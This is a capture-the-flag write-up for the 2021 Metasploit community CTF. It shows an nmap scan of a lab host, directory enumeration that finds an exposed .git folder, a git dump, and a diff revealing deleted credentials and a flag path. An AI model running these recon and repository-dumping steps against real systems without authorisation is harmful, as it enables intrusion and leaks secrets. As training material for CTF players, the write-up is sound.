

# 2021 Metasploit community CTF

Platform: CTFtime

# Port scan

```bash
# Nmap 7.91 scan initiated Sun Dec  5 04:03:36 2021 as: nmap -sV -T4 -Pn -n -p80,443,8080,10010,11111,15000,15010,15122,20000,20001,20011,20022,20055,20123,30033,30034,33337,35000 -oA services 172.17.41.37
Nmap scan report for 172.17.41.37
Host is up (0.00047s latency).

PORT      STATE SERVICE    VERSION
80/tcp    open  http       Werkzeug httpd 2.0.1 (Python 3.9.7)
443/tcp   open  ssl/https  Apache/2.4.51 (Debian)
8080/tcp  open  http       WSGIServer 0.2 (Python 3.8.10)
10010/tcp open  rxapi?
11111/tcp open  http       Thin httpd
15000/tcp open  hydap?
15010/tcp open  http       Thin httpd
15122/tcp open  ssh        OpenSSH 8.6 (protocol 2.0)
20000/tcp open  http       SimpleHTTPServer 0.6 (Python 3.7.3)
20001/tcp open  microsan?
20011/tcp open  unknown
20022/tcp open  http       Apache httpd 2.4.51 ((Debian))
20055/tcp open  http       Apache httpd 2.4.51 ((Debian))
20123/tcp open  ssh        OpenSSH 8.6 (protocol 2.0)
30033/tcp open  unknown
30034/tcp open  http       SimpleHTTPServer 0.6 (Python 3.8.10)
33337/tcp open  http-proxy Apache Traffic Server 7.1.1
35000/tcp open  http       Apache httpd 2.4.38 ((Debian))
5 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port10010-TCP:V=7.91%I=7%D=12/5%Time=61AC3A20%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(GetReque
SF:st,AE9,"HTTP/1\.0\x20200\x20OK\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-X
SF:SS-Protection:\x201;\x20mode=block\r\nX-Content-Type-Options:\x20nosnif
SF:f\r\nX-Download-Options:\x20noopen\r\nX-Permitted-Cross-Domain-Policies
SF::\x20none\r\nReferrer-Policy:\x20strict-origin-when-cross-origin\r\nLin
SF:k:\x20</assets/application-b8c697e38f5ecf278f5ea80d758553eae08a5635194a
SF:002f5b5dc51db0ef1145\.css>;\x20rel=preload;\x20as=style;\x20nopush,</pa
SF:cks/js/application-e39138e5c24b0104f8e3\.js>;\x20rel=preload;\x20as=scr
SF:ipt;\x20nopush\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nETag:
SF:\x20W/\"ec310b625379abd4078398eca0e0023a\"\r\nCache-Control:\x20max-age
SF:=0,\x20private,\x20must-revalidate\r\nSet-Cookie:\x20ff52b07dcca4a964c6
SF:c1e364b4f99fbb02afa96304cf34f428d00ee4c40275c96f9510133fe28fe7feb97e0d6
SF:fdbf809c40fac3654a1b34fa097f9c505d1cf31ee2d3b85300080cabcc225b97d2673de
SF:c7da93df90a18c328816e0d7295b080612320de5fefdb3f0e614d719eb7f22dfd3d0357
SF:204ad89f30d9b168b58031277=fRtlhA62bxr8H8CbqJ4J9TboySPRGfW6t6gjaMG7dTjfP
SF:2wgD8jjIVj")%r(HTTPOptions,75B,"HTTP/1\.0\x20404\x20Not\x20Found\r\nCon
SF:tent-Type:\x20text/html;\x20charset=UTF-8\r\nX-Request-Id:\x20ce25b1c2-
SF:0af3-49df-91e2-4c19cf496800\r\nX-Runtime:\x200\.006896\r\nContent-Lengt
SF:h:\x201722\r\n\r\n<!DOCTYPE\x20html>\n<html>\n<head>\n\x20\x20<title>Th
SF:e\x20page\x20you\x20were\x20looking\x20for\x20doesn't\x20exist\x20\(404
SF:\)</title>\n\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=devic
SF:e-width,initial-scale=1\">\n\x20\x20<style>\n\x20\x20\.rails-default-er
SF:ror-page\x20{\n\x20\x20\x20\x20background-color:\x20#EFEFEF;\n\x20\x20\
SF:x20\x20color:\x20#2E2F30;\n\x20\x20\x20\x20text-align:\x20center;\n\x20
SF:\x20\x20\x20font-family:\x20arial,\x20sans-serif;\n\x20\x20\x20\x20marg
SF:in:\x200;\n\x20\x20}\n\n\x20\x20\.rails-default-error-page\x20div\.dial
SF:og\x20{\n\x20\x20\x20\x20width:\x2095%;\n\x20\x20\x20\x20max-width:\x20
SF:33em;\n\x20\x20\x20\x20margin:\x204em\x20auto\x200;\n\x20\x20}\n\n\x20\
SF:x20\.rails-default-error-page\x20div\.dialog\x20>\x20div\x20{\n\x20\x20
SF:\x20\x20border:\x201px\x20solid\x20#CCC;\n\x20\x20\x20\x20border-right-
SF:color:\x20#999;\n\x20\x20\x20\x20border-left-color:\x20#999;\n\x20\x20\
SF:x20\x20border-bottom-color:\x20#BBB;\n\x20\x20\x20\x20border-top:\x20#B
SF:00100\x20solid\x204px;\n\x20\x20\x20\x20border-top-left-radius:\x209px;
SF:\n\x20\x20\x20\x20border-top-right-radius:\x209px;\n\x20\x20\x20\x20bac
SF:kground-color:\x20white");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port15000-TCP:V=7.91%I=7%D=12/5%Time=61AC3A20%P=x86_64-pc-linux-gnu%r(N
SF:ULL,F6,"\nWelcome\x20to\x20the\x20Student\x20Database\x20Management\x20
SF:System!\nTime\x20is\x202021-12-05\x2004:03:39\x20\+0000\.\n\nPick\x20on
SF:e\x20of\x20the\x20following\x20options:\n1\.\x20Create\x20new\x20studen
SF:t\x20record\n2\.\x20Show\x20student\x20records\n3\.\x20Update\x20an\x20
SF:existing\x20record\n4\.\x20Delete\x20student\x20record\n5\.\x20Exit\n\n
SF:Input:\x20")%r(GenericLines,272,"\nWelcome\x20to\x20the\x20Student\x20D
SF:atabase\x20Management\x20System!\nTime\x20is\x202021-12-05\x2004:03:39\
SF:x20\+0000\.\n\nPick\x20one\x20of\x20the\x20following\x20options:\n1\.\x
SF:20Create\x20new\x20student\x20record\n2\.\x20Show\x20student\x20records
SF:\n3\.\x20Update\x20an\x20existing\x20record\n4\.\x20Delete\x20student\x
SF:20record\n5\.\x20Exit\n\nInput:\x20\nError\.\x20Unrecognised\x20choice:
SF:\x200\n\nPick\x20one\x20of\x20the\x20following\x20options:\n1\.\x20Crea
SF:te\x20new\x20student\x20record\n2\.\x20Show\x20student\x20records\n3\.\
SF:x20Update\x20an\x20existing\x20record\n4\.\x20Delete\x20student\x20reco
SF:rd\n5\.\x20Exit\n\nInput:\x20\nError\.\x20Unrecognised\x20choice:\x200\
SF:n\nPick\x20one\x20of\x20the\x20following\x20options:\n1\.\x20Create\x20
SF:new\x20student\x20record\n2\.\x20Show\x20student\x20records\n3\.\x20Upd
SF:ate\x20an\x20existing\x20record\n4\.\x20Delete\x20student\x20record\n5\
SF:.\x20Exit\n\nInput:\x20")%r(GetRequest,272,"\nWelcome\x20to\x20the\x20S
SF:tudent\x20Database\x20Management\x20System!\nTime\x20is\x202021-12-05\x
SF:2004:03:50\x20\+0000\.\n\nPick\x20one\x20of\x20the\x20following\x20opti
SF:ons:\n1\.\x20Create\x20new\x20student\x20record\n2\.\x20Show\x20student
SF:\x20records\n3\.\x20Update\x20an\x20existing\x20record\n4\.\x20Delete\x
SF:20student\x20record\n5\.\x20Exit\n\nInput:\x20\nError\.\x20Unrecognised
SF:\x20choice:\x200\n\nPick\x20one\x20of\x20the\x20following\x20options:\n
SF:1\.\x20Create\x20new\x20student\x20record\n2\.\x20Show\x20student\x20re
SF:cords\n3\.\x20Update\x20an\x20existing\x20record\n4\.\x20Delete\x20stud
SF:ent\x20record\n5\.\x20Exit\n\nInput:\x20\nError\.\x20Unrecognised\x20ch
SF:oice:\x200\n\nPick\x20one\x20of\x20the\x20following\x20options:\n1\.\x2
SF:0Create\x20new\x20student\x20record\n2\.\x20Show\x20student\x20records\
SF:n3\.\x20Update\x20an\x20existing\x20record\n4\.\x20Delete\x20student\x2
SF:0record\n5\.\x20Exit\n\nInput:\x20");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port20001-TCP:V=7.91%I=7%D=12/5%Time=61AC3A20%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,46,"\0\0\0F\0\0\0\0\0\0\0\x0c\0\x02\0\x01\0\0\0\x06\0\0\0\x
SF:0c\0\x02Px\0\0\0\0\0\0\0\x1a\0\x01PyMissing\x20game\x20mode\0\0\0\0\x0c
SF:\0\x02Pz\0\0\0\x04")%r(GetRequest,46,"\0\0\0F\0\0\0\0\0\0\0\x0c\0\x02\0
SF:\x01\0\0\0\x06\0\0\0\x0c\0\x02Px\0\0\0\0\0\0\0\x1a\0\x01PyMissing\x20ga
SF:me\x20mode\0\0\0\0\x0c\0\x02Pz\0\0\0\x04")%r(HTTPOptions,46,"\0\0\0F\0\
SF:0\0\0\0\0\0\x0c\0\x02\0\x01\0\0\0\x06\0\0\0\x0c\0\x02Px\0\0\0\0\0\0\0\x
SF:1a\0\x01PyMissing\x20game\x20mode\0\0\0\0\x0c\0\x02Pz\0\0\0\x04")%r(RTS
SF:PRequest,46,"\0\0\0F\0\0\0\0\0\0\0\x0c\0\x02\0\x01\0\0\0\x06\0\0\0\x0c\
SF:0\x02Px\0\0\0\0\0\0\0\x1a\0\x01PyMissing\x20game\x20mode\0\0\0\0\x0c\0\
SF:x02Pz\0\0\0\x04")%r(RPCCheck,46,"\0\0\0F\0\0\0\0\0\0\0\x0c\0\x02\0\x01\
SF:0\0\0\x06\0\0\0\x0c\0\x02Px\0\0\0\0\0\0\0\x1a\0\x01PyMissing\x20game\x2
SF:0mode\0\0\0\0\x0c\0\x02Pz\0\0\0\x04")%r(DNSVersionBindReqTCP,46,"\0\0\0
SF:F\0\0\0\0\0\0\0\x0c\0\x02\0\x01\0\0\0\x06\0\0\0\x0c\0\x02Px\0\0\0\0\0\0
SF:\0\x1a\0\x01PyMissing\x20game\x20mode\0\0\0\0\x0c\0\x02Pz\0\0\0\x04")%r
SF:(DNSStatusRequestTCP,46,"\0\0\0F\0\0\0\0\0\0\0\x0c\0\x02\0\x01\0\0\0\x0
SF:6\0\0\0\x0c\0\x02Px\0\0\0\0\0\0\0\x1a\0\x01PyMissing\x20game\x20mode\0\
SF:0\0\0\x0c\0\x02Pz\0\0\0\x04")%r(Help,46,"\0\0\0F\0\0\0\0\0\0\0\x0c\0\x0
SF:2\0\x01\0\0\0\x06\0\0\0\x0c\0\x02Px\0\0\0\0\0\0\0\x1a\0\x01PyMissing\x2
SF:0game\x20mode\0\0\0\0\x0c\0\x02Pz\0\0\0\x04")%r(SSLSessionReq,46,"\0\0\
SF:0F\0\0\0\0\0\0\0\x0c\0\x02\0\x01\0\0\0\x06\0\0\0\x0c\0\x02Px\0\0\0\0\0\
SF:0\0\x1a\0\x01PyMissing\x20game\x20mode\0\0\0\0\x0c\0\x02Pz\0\0\0\x04")%
SF:r(TerminalServerCookie,46,"\0\0\0F\0\0\0\0\0\0\0\x0c\0\x02\0\x01\0\0\0\
SF:x06\0\0\0\x0c\0\x02Px\0\0\0\0\0\0\0\x1a\0\x01PyMissing\x20game\x20mode\
SF:0\0\0\0\x0c\0\x02Pz\0\0\0\x04")%r(TLSSessionReq,46,"\0\0\0F\0\0\0\0\0\0
SF:\0\x0c\0\x02\0\x01\0\0\0\x06\0\0\0\x0c\0\x02Px\0\0\0\0\0\0\0\x1a\0\x01P
SF:yMissing\x20game\x20mode\0\0\0\0\x0c\0\x02Pz\0\0\0\x04")%r(X11Probe,46,
SF:"\0\0\0F\0\0\0\0\0\0\0\x0c\0\x02\0\x01\0\0\0\x06\0\0\0\x0c\0\x02Px\0\0\
SF:0\0\0\0\0\x1a\0\x01PyMissing\x20game\x20mode\0\0\0\0\x0c\0\x02Pz\0\0\0\
SF:x04")%r(FourOhFourRequest,46,"\0\0\0F\0\0\0\0\0\0\0\x0c\0\x02\0\x01\0\0
SF:\0\x06\0\0\0\x0c\0\x02Px\0\0\0\0\0\0\0\x1a\0\x01PyMissing\x20game\x20mo
SF:de\0\0\0\0\x0c\0\x02Pz\0\0\0\x04");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port20011-TCP:V=7.91%I=7%D=12/5%Time=61AC3A20%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,11E,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20c
SF:lose\r\nContent-Type:\x20text/html\r\nContent-Length:\x20193\r\n\r\n<ht
SF:ml>\n\x20\x20<head>\n\x20\x20\x20\x20<title>Bad\x20Request</title>\n\x2
SF:0\x20</head>\n\x20\x20<body>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p>
SF:</h1>\n\x20\x20\x20\x20Invalid\x20Request\x20Line\x20&#x27;Invalid\x20H
SF:TTP\x20request\x20line:\x20&#x27;&#x27;&#x27;\n\x20\x20</body>\n</html>
SF:\n")%r(GetRequest,44D,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\
SF:nDate:\x20Sun,\x2005\x20Dec\x202021\x2004:03:45\x20GMT\r\nConnection:\x
SF:20close\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Leng
SF:th:\x20947\r\n\r\n<!doctype\x20html>\n<html>\n\x20\x20<link\x20rel=\"st
SF:ylesheet\"\x20href=\"/static/style\.css\">\n\n\x20\x20<head>\n\x20\x20<
SF:title>CTF\x20Gallery</title>\n\x20\x20</head>\n\n\t<body>\n\t\t<h1>CTF\
SF:x20Gallery</h1>\n\x20\x20\x20\x20<div\x20class=\"panel\">\n\x20\x20\x20
SF:\x20\x20\x20<a\x20class=\"pan_item\"\x20href=\"/admin\">admin</a>\n\x20
SF:\x20\x20\x20</div>\n\n\x20\x20\x20\x20\n\x20\x20\x20\x20<div\x20class=\
SF:"gal_links\"><p><a\x20href=\"/gallery/Sarah\">Sarah's\x20gallery</a></p
SF:></div>\n\x20\x20\x20\x20\n\x20\x20\x20\x20<div\x20class=\"gal_links\">
SF:<p><a\x20href=\"/gallery/John\">John's\x20gallery</a></p></div>\n\x20\x
SF:20\x20\x20\n\x20\x20\x20\x20<div\x20class=\"gal_links\"><p><a\x20href=\
SF:"/gallery/Ripley\">Ripley's\x20gallery</a></p></div>\n\x20\x20\x20\x20\
SF:n\x20\x20\x20\x20<div\x20class=\"gal_links\"><p><a\x20href=\"/gallery/A
SF:sh\">Ash's\x20gallery</a></p></div>\n\x20\x20\x20\x20\n\n\x20\x20\x20\x
SF:20<p>Some\x20galleries\x20have\x20not\x20yet\x20been\x20added\x20to\x20
SF:the\x20main\x20page\.<br>For\x20those\x20cases,\x20the\x20form\x20below
SF:\x20can\x20be\x20used\x20to\x20access\x20them\.</p>\n\n\x20\x20\x20\x20
SF:<div\x20id")%r(HTTPOptions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gun
SF:icorn\r\nDate:\x20Sun,\x2005\x20Dec\x202021\x2004:03:45\x20GMT\r\nConne
SF:ction:\x20close\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nAllo
SF:w:\x20HEAD,\x20OPTIONS,\x20GET\r\nContent-Length:\x200\r\n\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port30033-TCP:V=7.91%I=7%D=12/5%Time=61AC3A20%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,1A,"\[error\]\x20invalid\x20input\x20key\n")%r(GetRequest,1
SF:A,"\[error\]\x20invalid\x20input\x20key\n")%r(HTTPOptions,1A,"\[error\]
SF:\x20invalid\x20input\x20key\n")%r(RTSPRequest,1A,"\[error\]\x20invalid\
SF:x20input\x20key\n")%r(RPCCheck,1A,"\[error\]\x20invalid\x20input\x20key
SF:\n")%r(DNSVersionBindReqTCP,1A,"\[error\]\x20invalid\x20input\x20key\n"
SF:)%r(DNSStatusRequestTCP,1A,"\[error\]\x20invalid\x20input\x20key\n")%r(
SF:Help,1A,"\[error\]\x20invalid\x20input\x20key\n")%r(SSLSessionReq,1A,"\
SF:[error\]\x20invalid\x20input\x20key\n")%r(TerminalServerCookie,1A,"\[er
SF:ror\]\x20invalid\x20input\x20key\n")%r(TLSSessionReq,1A,"\[error\]\x20i
SF:nvalid\x20input\x20key\n")%r(Kerberos,1A,"\[error\]\x20invalid\x20input
SF:\x20key\n")%r(SMBProgNeg,1A,"\[error\]\x20invalid\x20input\x20key\n")%r
SF:(X11Probe,1A,"\[error\]\x20invalid\x20input\x20key\n")%r(FourOhFourRequ
SF:est,1A,"\[error\]\x20invalid\x20input\x20key\n")%r(LPDString,1A,"\[erro
SF:r\]\x20invalid\x20input\x20key\n")%r(LDAPSearchReq,1A,"\[error\]\x20inv
SF:alid\x20input\x20key\n")%r(LDAPBindReq,1A,"\[error\]\x20invalid\x20inpu
SF:t\x20key\n")%r(SIPOptions,1A,"\[error\]\x20invalid\x20input\x20key\n")%
SF:r(LANDesk-RC,1A,"\[error\]\x20invalid\x20input\x20key\n")%r(TerminalSer
SF:ver,1A,"\[error\]\x20invalid\x20input\x20key\n")%r(NCP,1A,"\[error\]\x2
SF:0invalid\x20input\x20key\n")%r(NotesRPC,1A,"\[error\]\x20invalid\x20inp
SF:ut\x20key\n")%r(JavaRMI,1A,"\[error\]\x20invalid\x20input\x20key\n")%r(
SF:WMSRequest,1A,"\[error\]\x20invalid\x20input\x20key\n")%r(oracle-tns,1A
SF:,"\[error\]\x20invalid\x20input\x20key\n")%r(ms-sql-s,1A,"\[error\]\x20
SF:invalid\x20input\x20key\n")%r(afp,1A,"\[error\]\x20invalid\x20input\x20
SF:key\n")%r(giop,1A,"\[error\]\x20invalid\x20input\x20key\n");
MAC Address: 0A:C3:BE:1E:46:4F (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  5 04:06:16 2021 -- 1 IP address (1 host up) scanned in 159.10 seconds
```

# 4 of Hearts

Just visited the home page on port 80.



# 2 of Spades

Enumerated .git directory:

```bash
┌──(kali㉿kali)-[~/ubuntu-target/enum/http443]
└─$ feroxbuster -u http://172.17.41.37:443/ -w big.txt -x jpg -C 403                                                                                                                                                                      1 ⨯

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.41.37:443/
 🚀  Threads               │ 50
 📖  Wordlist              │ big.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💢  Status Code Filters   │ [403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [jpg]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      316c http://172.17.41.37:443/.git
301        9l       28w      325c http://172.17.41.37:443/.git/branches
200        5l       13w       92c http://172.17.41.37:443/.git/config
200        1l       10w       73c http://172.17.41.37:443/.git/description
301        9l       28w      322c http://172.17.41.37:443/.git/hooks
200        4l        6w      145c http://172.17.41.37:443/.git/index
301        9l       28w      321c http://172.17.41.37:443/.git/info
301        9l       28w      321c http://172.17.41.37:443/.git/logs
301        9l       28w      324c http://172.17.41.37:443/.git/objects
301        9l       28w      327c http://172.17.41.37:443/.git/objects/68
301        9l       28w      327c http://172.17.41.37:443/.git/objects/61
301        9l       28w      327c http://172.17.41.37:443/.git/objects/97
301        9l       28w      321c http://172.17.41.37:443/.git/refs
301        9l       28w      327c http://172.17.41.37:443/.git/objects/b4
200        6l       43w      240c http://172.17.41.37:443/.git/info/exclude
301        9l       28w      327c http://172.17.41.37:443/.git/objects/fa
301        9l       28w      329c http://172.17.41.37:443/.git/objects/info
301        9l       28w      327c http://172.17.41.37:443/.git/refs/heads
301        9l       28w      329c http://172.17.41.37:443/.git/objects/pack
301        9l       28w      326c http://172.17.41.37:443/.git/logs/refs
301        9l       28w      326c http://172.17.41.37:443/.git/refs/tags
200        1l        1w       41c http://172.17.41.37:443/.git/refs/heads/master
301        9l       28w      332c http://172.17.41.37:443/.git/logs/refs/heads
```

From GitTools(https://github.com/internetwache/GitTools) used gitdumper and got all that I needed to work with git:

```bash
shogun@kyoto:~/Documents/GitTools/Dumper$ ./gitdumper.sh http://localhost:8081/.git/ dest-dir ~/Downloads/git-dump/
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########

[*] Destination folder does not exist
[+] Creating dest-dir/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/68/7168d567086a87eccd0621eec3f90e331ee5a7
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/61/fffcea82d8ed62623d34d956d69602e93d8747
[+] Downloaded: objects/b4/29a1087c6723fa1aff5a36e6c5055e775cb923
[+] Downloaded: objects/d9/2bbeb9eb64a47f736eab64e442f315970b4f7f
[+] Downloaded: objects/d8/15b8345e0bce3e21412e6a6abaf0933880a461
[+] Downloaded: objects/97/01ef95d35afbdc2eb687983b0adc51d95a5885
[+] Downloaded: objects/6d/7463898b054e8b0a6332a0973701f08cc57443
[+] Downloaded: objects/1e/4988fd28fdfb4116f7203451e6cf1b6c51ea43
[+] Downloaded: objects/fa/efc0407d461914a05d2abf2cfae62230ea761a
```

Then, I just looked at logs and diff the last version with first commit, where the location of the flag is stored.

```bash
shogun@kyoto:~/Documents/GitTools/Dumper/dest-dir$ git log
commit 687168d567086a87eccd0621eec3f90e331ee5a7 (HEAD -> master)
Author: developer <developer@127.0.0.1>
Date:   Tue Nov 16 16:55:27 2021 +0000

    More enthusiasm

commit b429a1087c6723fa1aff5a36e6c5055e775cb923
Author: developer <developer@127.0.0.1>
Date:   Tue Nov 16 16:55:27 2021 +0000

    Cleanup

commit 61fffcea82d8ed62623d34d956d69602e93d8747
Author: developer <developer@127.0.0.1>
Date:   Tue Nov 16 16:55:27 2021 +0000

    Initial commit
shogun@kyoto:~/Documents/GitTools/Dumper/dest-dir$ git diff 61fffcea82d8ed62623d34d956d69602e93d8747
diff --git a/.env b/.env
deleted file mode 100644
index 1e4988f..0000000
--- a/.env
+++ /dev/null
@@ -1,3 +0,0 @@
-username=root
-password=password123
-flag_location=3e6f0e21-7faa-429f-8a1d-3f715a520da4.png
diff --git a/index.html b/index.html
deleted file mode 100644
index faefc04..0000000
--- a/index.html
+++ /dev/null
@@ -1 +0,0 @@
-Website under development
shogun@kyoto:~/Documents/GitTools/Dumper/dest-dir$
```

# 9 of Diamonds

Modified cookie to get admin access:


